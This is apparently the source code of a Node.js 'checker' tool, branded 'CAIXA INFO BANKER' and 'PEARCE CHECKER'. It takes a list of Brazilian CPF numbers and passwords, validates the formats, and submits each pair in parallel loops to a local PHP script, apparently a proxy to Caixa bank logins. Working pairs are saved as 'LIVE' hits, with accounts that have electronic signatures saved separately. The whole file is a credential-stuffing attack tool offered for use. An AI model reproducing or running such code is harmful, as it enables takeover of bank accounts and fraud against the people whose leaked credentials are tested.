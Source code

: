  //require
utf8 = require("utf8"),
eol = require("os").EOL,
fs = require("fs")
const figlet = require("figlet");
const request = require("request")
var rn = require('random-number');
const chalk = require("chalk");
const { v4: uuidv4 } = require('uuid');
var colors = require('colors');
const UserAgent = require("user-agents");
const prompt = require('prompt-sync')();
const signale = require('signale');
require('events').EventEmitter.prototype._maxListeners = 100;
//function request
function __curl($options) {
    return new Promise((resolve, reject) => {
        request($options, (err, res, body) => {
            resolve({ err: err, res: res, body: body })
        })
    })
}

//function
function getstr(index, index2, index3, value) {
    try {
        return {
            success: true,
            message: index.split(index2)[value].split(index3)[0]
        };
    } catch (e) {
        return {
            success: false
        };
    }
}
//(function 2)
function makeid() {
  var text = "";
  var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";

  for (var i = 0; i < 22; i++)
    text += possible.charAt(Math.floor(Math.random() * possible.length));

  return text;
}
//function
function code_challenge() {
  var text = "";
  var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";

  for (var i = 0; i < 50; i++)
    text += possible.charAt(Math.floor(Math.random() * possible.length));

  return text;
}
//(random cor)
Array.prototype.random = function (length) {
  return this[Math.floor((Math.random()*length))];
}
//(cor)
var color = ['white']
var rcolor = color.random(color.length)
//Requisição inicial
const listas = prompt('NOME DA LISTA: '[rcolor]);
//const threads = prompt('Escolha Quantos threads: '[rcolor]);
const senha_assinatura = prompt('[1] P/ VERIFICAR OS 6 PRIMEIROS DIGITOS DA SENHA | [2] P/ VERIFICAR OS 4 PRIMEIROS E OS 2 ULTIMOS DA DIGITOS SENHA: '[rcolor]);
const adc_19 = prompt('[1] P/ ADICIONAR O 19 EM LISTA DE 6 DIGITOS | [2] P/ CONTINUAR SEM ADICIONAR O 19: '[rcolor]);
//(tela inicial)
figlet("CAIXA INFO BANKER", {
    font: "Standard"
}, function(err, data) {
    console.log()
    console.log(chalk.whiteBright(data))
    //console.log("+ " + `INFORMAÇÕES!`[rcolor]);
    //console.log("+ " + `Threads ${threads} !`[rcolor]);
    console.log("+ " + `TOTAL CARREGADAS: ${lista.length}`)
    console.log()
    console.log()
    console.log(chalk.redBright("#PEARCE CHECKER - TESTADOR INICIADO!\n"[rcolor]));

    for (var x = 0 ;x< 6 ;x++) {
   
        init()
    }

});
//(LISTA)
const lista = fs.readFileSync(`${listas}.txt`, "utf8").split(eol)
//Lista count
var CountLives = 0;
var countAp2 = 0;
var CountDies = 0;
var counterror = 0;
var Countlines = lista.length
var CountFila = Countlines
var CountErros = 0
var modExec
var count = 0;
var cpfs = new Array();
//init
async function init(linha = false) {
//funtion
  try {
//funtion userAgent
let userAgent = new UserAgent({ deviceCategory: 'mobile' })
//(LISTA CPF)
var [cpf, senha] =(linha) ? linha :  lista.shift().split("|");
//(remove letras)
var senha = `${senha}`.split("").filter(n => (Number(n) || n == 0)).join("");
//(senha)
if (!senha || senha == undefined || senha == null || senha.length < 6 || senha.length > 8) {
//(couter + console)
CountDies++
CountFila = CountFila-1
console.log(chalk.italic(`[${CountDies}/${Countlines}] ${cpf}|${senha} » "SENHA MENOR QUE 6 DIGITOS OU MAIOR QUE 8 DIGITOS!" [RESTAM: ${CountFila}]`))
//(return)
return
}
//(senha)
if (!cpf || cpf == undefined || cpf == null || cpf.length < 11 || cpf.length > 11) {
  //(couter + console)
CountDies++
CountFila = CountFila-1
console.log(chalk.italic(`[${CountDies}/${Countlines}] ${cpf}|${senha} » "CPF INVALIDO!" [RESTAM: ${CountFila}]`))
//(return)
return
}
//(encrypt senha md5)
for (;;) {
var caixa = await __curl({
url: `http://localhost/chk_caixa/caixa.php?linha=${cpf}|${senha}|${senha_assinatura}|${adc_19}`,
method: "GET", 
//timeout: 3000,
followAllRedirects: true,
headers: {
}
});

if (caixa.body) break;
}
//( Errror Sessao)
if (!caixa.body){
//(couter + console)
CountErros++
CountFila = CountFila-1
console.log(chalk.italic(`[${CountDies}/${Countlines}] ${cpf}|${senha} » "NENHUM RETORNO OBTIDO!" [RESTAM: ${CountFila}]`))
//(return)
return
//(else LIVE)
} else if (caixa.body.includes('LIVE')) {
  //console Live
  CountLives++
  CountFila = CountFila-1
  console.log(chalk.green(`[${CountDies}/${Countlines}] ${caixa.body} [RESTAM: ${CountFila}]`))
  fs.appendFileSync("Aprovadas/caixa_ativa.txt", `${caixa.body} \n`)

  if (caixa.body.includes('ASSINATURA ELETRONICA')) {
  //console Live
  fs.appendFileSync("Aprovadas/caixa_assinatura_ativa.txt", `${caixa.body} \n`)
  return
//(Else)
}

  return
}

 else {
//(couter + console)
CountDies++
CountFila = CountFila-1
console.log(chalk.italic(`[${CountDies}/${Countlines}] ${caixa.body} [RESTAM: ${CountFila}]`))
//(return)
return
}
//error
  }catch (error) {
    //(error)
  console.log(`${error} `[rcolor]);
    //(finaliza)
 }finally{
  //finally
if (lista.length !== 0) init() 

//(finalizado)
}

}



